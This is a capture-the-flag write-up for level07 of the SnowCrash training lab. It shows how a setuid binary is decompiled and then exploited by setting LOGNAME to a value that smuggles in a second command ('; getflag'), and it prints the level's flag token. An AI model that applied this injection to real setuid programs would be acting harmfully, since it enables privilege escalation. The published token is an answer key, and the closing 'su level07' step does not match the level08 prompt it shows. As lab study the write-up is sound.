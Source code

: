 # level07
_The ritual_ :
- `pwd`: `/home/user/level07`
- `id`: `uid=2007(level07) gid=2007(level07) groups=2007(level07),100(users)`
- `ls -la`:
```sh
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```
- `find / -user flag07 2> /dev/null`: nothing

## _BINARY FILE_
```sh
level07@SnowCrash:~$ ./level07
level07
level07@SnowCrash:~$
```
_???_
```sh
level07@SnowCrash:~$ ./level07 "Noah my beloved"
level07
level07@SnowCrash:~$
```
_It only print the first argument `argv[0]` ?_
```sh
level07@SnowCrash:~$ strings level07
...
setresuid@@GLIBC_2.0
...
level07@SnowCrash:~$
```

_From now on, my second ritual will be to decompile all the binary files that I find._

```sh
➜  ~ scp -P 4242 level07@127.0.0.1:/home/user/level07/level07 /Users/mayoub/Desktop/
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::7556:8938:f6af:c775 fec0::5054:ff:fe12:3456
level07@127.0.0.1's password:
level07                                                                                                                                                                   100% 8805   501.9KB/s   00:00
➜  ~
```

## _DECOMPILATION TIME_

![decompiled_binary](../../assets/level07/decompiled_binary.png)

_Okayyyy it print the `LOGNAME` environnement variable, and not the first argument._

_So, if I understand, it execute `echo` with `LOGNAME`, let's try a trick :_
```sh
level07@SnowCrash:~$ export LOGNAME='; getflag'
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```

# <u>_WTF IT WORKS OH MY GOD ?!?!?!?!_</u>
_It's only that. I didn't expect something so simple after the previous level... It's fishy..._
- But let's explain what `asprintf` do : imagine just the output of `printf` but you assign it to a variable, here the first argument `local_1c` who's a string character.

# That was easy

- Let's login to `level07` directly :
```sh
level07@SnowCrash:~$ su level07
Password:
level08@SnowCrash:~$
```
# level07 complet !
![yeah](../../assets/yeah.gif)